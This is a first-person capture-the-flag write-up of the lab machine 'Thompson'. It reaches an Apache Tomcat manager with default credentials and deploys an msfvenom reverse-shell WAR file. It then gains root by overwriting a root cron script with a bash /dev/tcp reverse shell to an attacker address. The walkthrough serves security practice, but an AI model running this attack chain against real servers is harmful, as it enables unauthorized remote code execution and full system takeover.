Thompson
Scanning¶
I began by running an Nmap scan on the target, which revealed 3 open ports. Port 8080 immediately caught my attention as it exposed a web service.

Enumeration¶
Next, I visited port 8080 in my browser and saw the classic Apache Tomcat landing page. I noted that it was running version 8.5.5

Apache Tomcat Overview
Apache Tomcat is an open-source Java servlet container and web server that implements the Java Servlet, JavaServer Pages (JSP), and WebSocket specifications. Unlike traditional web servers (Apache/Nginx) or CMS platforms (WordPress), Tomcat specifically executes server-side Java code through JSP files and servlets, making it popular for enterprise Java web applications.
I noticed three key endpoints available on the landing page:
-
/manager/html- Webapp deployment interface -
/host-manager/html- Virtual host management -
/manager/status- Server status page
The Manager (/manager/html) and Host-Manager (/host-manager/html) applications are built-in administrative interfaces:
-
Manager: Allows authenticated users to deploy, undeploy, start, stop, and reload web applications (WAR files) across the entire Tomcat instance
-
Host-Manager: Manages virtual hosts (multiple websites on different domains)
Critical Misconfiguration: When these apps are enabled with weak/default credentials, attackers gain the ability to upload malicious WAR files. Tomcat automatically extracts and executes JSP code within these WARs, enabling arbitrary remote code execution (RCE)
Tomcat Exploitation¶
I clicked on the Manager App link, which prompted me for authentication credentials.

Since I didn't have credentials yet, I pressed Cancel. This revealed a goldmine - the 401 Unauthorized page displayed example credentials right in the error message!

username: tomcat
password: s3cret
I immediately tried these credentials: tomcat/s3cret - and they worked perfectly! I was now inside the Manager dashboard.

With access to the Manager interface, I explored the options and found the WAR file upload section. I knew this was my entry point since Tomcat executes uploaded JSP code.
First, I created a malicious WAR file using msfvenom:
msfvenom -p java/jsp_shell_reverse_tcp LHOST=tun0 LPORT=4444 -f war > shell.war

Next, I set up my listener in Metasploit:
msfconsole
#in the msfconsole terminal
use multi/handler
set PAYLOAD java/jsp_shell_reverse_tcp
set LHOST tun0
set LPORT 4444
run

Note: Netcat would also work here:
rlwarp nc -lvnp 4444
I uploaded shell.war through the Manager interface, clicked Deploy, then navigated to http://10.80.167.208:8080/shell/ to trigger the payload. Boom - shell obtained

My shell was unstable, so I stabilized it with these commands:
# Spawn a proper TTY
python -c 'import pty; pty.spawn("/bin/bash")'
# Background and stabilise it
CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
User Access¶
Now with a stable shell, I navigated to /home and found a user named jack and grabbed the user flag

Privilege Escalation¶
LinPEAS didn't reveal much, so I manually checked for cron jobs:
cat /etc/crontab

Jackpot! I found this entry:
* * * * root cd /home/jack && bash id.sh
A root cronjob running every minute from the writable /home/jack/ directory!
I checked the script contents:
cat id.sh
ls -la id.sh

The script was simple (#!/bin/bash and id > test.txt), but when I saw the permissions, I realized this was the privilege escalation vector. The file was writable by my tomcat user, yet executed by root cron every single minute.
What came to my mind was that since root was executing this file and I had write permissions, I could simply edit it and place my reverse shell payload. When root cron ran it next, I'd get a root shell callback on my listener.
So I overwrote id.sh with the reverse shell:
echo "bash -c 'bash -i >& /dev/tcp/192.168.145.53/4321 0>&1'" > id.sh

Next, I started my netcat listener and waited about a minute for the next cron execution - and sure enough, the root shell connected back!
rlwrap nc -lvnp 4321

I eventually obtained the root flag